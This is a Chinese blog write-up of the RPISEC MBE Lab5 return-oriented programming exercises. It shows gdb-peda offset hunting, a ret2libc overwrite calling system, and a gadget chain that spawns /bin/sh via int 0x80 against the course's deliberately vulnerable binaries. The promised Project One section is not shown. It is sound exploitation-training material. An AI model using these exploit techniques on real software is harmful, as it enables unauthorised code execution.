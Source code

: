 ```yaml
---
layout: post
title: "MBE Lab5 and Project One Write Up"
---
```


# 0x00 背景

此篇write up对应于MBE的[Lab5](https://github.com/RPISEC/MBE/tree/master/src/lab05)和[Project One](http://security.cs.rpi.edu/courses/binexp-spring2015/lectures/14/ProjectOneRubric.pdf)，ROP的道理比较简单，需要会使用`ropsearch`等工具，后者则为pwn小题目，借机实践了一把GOT/PLT Overwrites。



# 0x01 Lab5 ROP

## lab5C

此题动态链接，而且点名是ret2libc，未开启栈保护所以直接溢出覆盖返回地址为system地址，借助gdb-peda的功能得到偏移为156字节：

```
gdb-peda$ pattern create 2000 input
Writing pattern of 2000 chars to filename "input"
gdb-peda$ r < input 
Starting program: /home/larry/MBE/src/lab05/lab5C < input
…
gdb-peda$ pattern offset 0x71414154
1900101972 found at offset: 156
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e55310 <__libc_system>
```

加上4字节的padding，还缺一个`/bin/sh`字符串指针的地址。由于源码中会把我们输入的字符串保存到全局变量global_str中，所以查看符号表可得到其虚拟地址，成功ROP：

![][1] 

## Lab5B

同理可以得到pattern offset为140，但是为静态链接，需要我们手动构造基础的ROP Chain，也就是要找到符合shellcode的gadget。shellcode那肯定是要用系统调用了，主要的问题还是`/bin/sh`字符串指针的问题，在ROP过程中弹给ebx我做不到，就默认还是可以本地得到的。方法就是产生core dump之后gdb调试分析即可：

![][2]

还有一个问题是binary中找不到`mov ecx, eax`、`move dx, eax`这样的gadget，但可以使用pop ret来弹出0x00000000，具体如下：

```
/bin/sh
padding
pop ebx; ret
0xbfffefe0
xor eax, eax; ret
pop exc; ret
0x00000000
pop edx; ret
0x00000000
inc eax; ret
#repeat 9 times
inc eax; ret
int 0x80
```


[1]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8c7x50j20k6053dgl.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8daxttj20k40a20tv.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8e2x3dj20k104nq3g.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8f79unj20k104hjri.jpg
[5]: https://wx3.sinaimg.cn/large/ee2fecafly1fpbl8gmrlqj20k105gq3i.jpg
[6]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8hjp4zj20py08jq3g.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fpbl8i9zycj20i30410t3.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8jbdu4j20kd09dwem.jpg
[9]: https://wx4.sinaimg.cn/large/ee2fecafly1fpbl8l9yv1j20iu05ct8p.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1fpbl8m2y7sj20le093aao.jpg